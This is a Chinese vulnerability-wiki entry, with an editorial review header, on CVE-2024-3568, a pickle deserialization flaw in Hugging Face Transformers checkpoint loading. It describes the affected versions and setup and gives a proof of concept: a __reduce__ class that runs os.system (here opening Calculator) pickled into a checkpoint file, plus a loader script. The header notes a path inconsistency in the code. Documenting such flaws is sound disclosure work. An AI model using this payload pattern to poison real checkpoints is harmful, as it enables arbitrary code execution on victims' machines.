

# Hugging Face Transformers checkpoint 反序列化（CVE-2024-3568）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hugging Face Transformers
- 本文讨论：CVE-2024-3568
- 版本、权限与配置前提：transformers&lt;4.38.0；受害者加载不可信checkpoint；Python3.9/TF2.15/Transformers4.37.2；macOS演示命令
- 资料类型：漏洞原理与复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 严重产品误分类：checkpoint是模型检查点，不是Check Point厂商
- 目录树称weights.h5位于checkpoint子目录，生成代码却写awesome_poc/weights.h5，需核对load_repo_checkpoint期望结构
- 准确机制应为反序列化调用__reduce__返回的callable，不是在加载时调用__reduce__方法
- 已落实的文本修订：标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 本地PoC路径一致性、披露日与版本边界待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

CVE-2024-3568 是 Huggingface 的 Transformers 库中存在的一个反序列化漏洞，该漏洞源于 `TFPreTrainedModel()` 类的 `load_repo_checkpoint()` 函数在反序列化未经信任的数据时，使用了不安全的 `pickle.load()` 方法。攻击者可以通过构造恶意的序列化负载，诱使受害者在正常的训练过程中加载看似无害的检查点，从而在目标机器上执行任意代码，导致远程代码执行。

此漏洞的利用方式可能包括供应链投毒，即攻击者在模型数据中插入恶意构造的数据，利用反序列化过程触发恶意代码执行。这类攻击的危险性在于，受害者将在不知情的情况下加载被篡改的模型 checkpoint，导致攻击者在其系统上执行任意代码。

参考链接：

- https://github.com/advisories/GHSA-37q5-v5qm-c9v8
- https://github.com/huggingface/transformers/commit/693667b8ac8138b83f8adb6522ddaf42fa07c125
- https://huntr.com/bounties/b3c36992-5264-4d7f-9906-a996efafba8f

## 披露时间

```
2024.02.03
```

## 漏洞影响

```
transformers < 4.38.0
```

## 环境搭建

基于 python 3.9 创建一个虚拟环境，需要安装指定的版本的 `tensorflow`、`transformers`、`keras`，否则可能报兼容性错误：

```shell
# 创建工作目录
mkdir CVE-2024-3568 && cd CVE-2024-3568

# 使用 Python 3.9 创建新的 venv
python3.9 -m venv venv
source venv/bin/activate

# 安装兼容的 TensorFlow 版本
pip install --upgrade pip
pip install tensorflow==2.15 transformers==4.37.2 keras==2.15
```

登录 Huggingface 获取 AccessToken，`huggingface-cli` 登录：

```
> huggingface-cli login
Enter your token (input will not be visible): xxxxxxxxx
```

目录结构：

```
CVE-2024-3568
├── awesome_poc
│   └── checkpoint
│       ├── extra_data.pickle
│       └── weights.h5
├── generate_payload.py
├── poc.py
└── venv
```

通过 `generate_payload.py` 生成 `extra_data.pickle` 和 `weights.h5`：

- `extra_data.pickle`：序列化的元数据文件，模型加载时会使用 `pickle.load()` 加载这个文件。
- `weights.h5`：模型权重文件，与模型架构对应，否则将抛出异常。

```python
import pickle
import os
from transformers import TFAutoModel
class CExecute:
    def __reduce__(self):
        import os
        cmd = 'open /System/Applications/Calculator.app'
        return (os.system,(cmd,))

poc = CExecute()
with open('awesome_poc/checkpoint/extra_data.pickle', 'wb') as fp:
    pickle.dump(poc,fp)

# Generate weights.h5
model = TFAutoModel.from_pretrained('google-bert/bert-base-uncased')
model.save_weights(os.path.join('awesome_poc', 'weights.h5'))
```

## 漏洞复现

在 `pickle` 反序列化的过程中，会调用对象的 `__reduce__` 方法，此时将会执行我们写入的命令 `open /System/Applications/Calculator.app`。

通过 `poc.py` 模拟模型训练，加载带有恶意命令的 `checkpoint`：

```python
from transformers import TFAutoModel
from tensorflow.keras.optimizers import Adam
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

model.load_repo_checkpoint('awesome_poc')
```




## 漏洞修复

- 升级 transformers 至最新版本 https://github.com/huggingface/transformers


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
